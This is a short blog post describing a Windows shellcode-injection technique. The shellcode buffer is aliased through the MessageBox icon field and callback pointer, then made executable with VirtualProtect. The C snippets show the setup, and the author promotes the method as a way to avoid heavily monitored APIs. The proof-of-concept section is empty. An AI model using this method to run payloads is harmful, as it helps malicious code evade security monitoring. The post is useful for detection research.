

.Shellcode injection using MessageBox
While trying to learn more about callback functions and how they can be used in native development I sort off stumbled onto a clunky code injection vector. I don't believe it's very documented so heres a blogpost.
Base structures and APIs
The injection technique is essentially a callback function code injection. We'll start with the structure holding everything together:
typedef struct tagMSGBOXPARAMSW {
UINT cbSize;
HWND hwndOwner;
HINSTANCE hInstance;
LPCWSTR lpszText;
LPCWSTR lpszCaption;
DWORD dwStyle;
LPCWSTR lpszIcon;
DWORD_PTR dwContextHelpId;
MSGBOXCALLBACK lpfnMsgBoxCallback;
DWORD dwLanguageId;
} MSGBOXPARAMSW, *PMSGBOXPARAMSW, *LPMSGBOXPARAMSW;
So tagMSGBOXPARAMSW or MSGBOXPARAMSW, is a structure that'll contain all the necessary info to assemble and display a MessageBox dialog.
What caught my eye when reading the documentation was naturally the MSGBOXCALLBACK parameter, reading the description A pointer to the callback function that processes help events for the message box. The callback function has the following form:, confirms both that it can be used for injection and its main limitation - it needs a manual trigger and will block the main thread execution, since the callback function is triggered as a response to a click in the help button. To create the MessageBox I just needed to feed the structure to the MessageBoxIndirectA function.
Since the technique is kinda simple, to make it more interesting I made the MSGBOXPARAMSW structure call itself, but more on that later.
In the begining we initialized everything as 0x00 and set the struct size to sizeof(MSGBOXPARAMS) which is an alias to MSGBOXPARAMSW.
MSGBOXPARAMS mbp = {0};
mbp.cbSize = sizeof(MSGBOXPARAMS);
mbp.hwndOwner = NULL;
mbp.hInstance = GetModuleHandle(NULL);
mbp.lpszText = L"Hello world";
mbp.lpszCaption = L"Launchpad messagebox";
The window handle owner can be set to null, it wont make any difference, the same for hInstance.
Since lpszIcon is a pointer, more specifically, LPCWSTR, we can cast the pointer to the shellcode buffer from unsigned char* to the same type. And of course we'll need the help button.
mbp.lpszIcon = (LPCWSTR)buf;
mbp.dwStyle = MB_HELP;
mbp.dwLanguageId = MAKELANGID(LANG_NEUTRAL, SUBLANG_DEFAULT);
Finally we set the callback to point to the address of the MSGBOXPARAMS's icon, which is itself pointing to the shellcode buffer:
mbp.lpfnMsgBoxCallback = (MSGBOXCALLBACK)mbp.lpszIcon;
We just need to type cast LPCWSTR as MSGBOXCALLBACK and mark the memory as executable:
VirtualProtect((LPVOID)mbp.lpszIcon, 510, PAGE_EXECUTE_READ, &dwOldProtection)
POC
The rest is business as usual: 
Cool thing about this technique is how it allows to steer away from heavily monitored windows API functions.